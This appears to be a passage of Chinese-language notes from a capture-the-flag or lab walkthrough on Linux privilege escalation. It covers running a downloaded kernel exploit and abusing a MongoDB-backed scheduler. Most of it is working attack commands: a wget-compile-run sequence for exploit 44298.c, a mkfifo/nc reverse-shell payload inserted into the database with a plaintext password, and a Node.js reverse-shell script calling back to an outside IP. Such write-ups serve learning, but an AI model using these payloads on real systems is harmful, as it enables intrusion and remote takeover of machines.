 python -m SimpleHTTPServer 8081
wget http://192.168.253.138:8081/44298.c
gcc 44298.c -o dayu
chmod +x dayu
./dayu


2）Mongodb提权

https://www.runoob.com/mongodb/mongodb-connections.html

ps aux | grep -v root
-v  ---查看不匹配的行

tom       1281  0.0  5.6 1023720 42868 ?       Ssl  02:57   0:01 /usr/bin/node /var/www/myplace/app.js

看到/var/scheduler/app.js的tom用户下运行的调度程序应用程序


nc -vlp 4444

mongo -u mark -p 5AYRft73VtFpc84k scheduler   ---db 查看库信息
show collections       ----show tables;查看已存在的表
db.tasks.find({})     ----查看一下表内容,现在表中无文档
db.tasks.insert({cmd: "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.139.149 4444 >/tmp/f"})   ----将反弹shell插入文档

成功获得tom用户的反弹shell!

python3 -c 'import pty; pty.spawn("/bin/bash")'

------------------------------------
3）方法3-app.js提权
里还有别的方法在JavaScript中创建一个反向shell

js木马：
----
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(1234, "192.168.139.131", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();

----
nc -vlp 1234

mongo -u mark -p 5AYRft73VtFpc84k scheduler
show collections
db.tasks.findOne()
db.tasks.insert({"cmd": "/usr/bin/node /tmp/shell.js"})
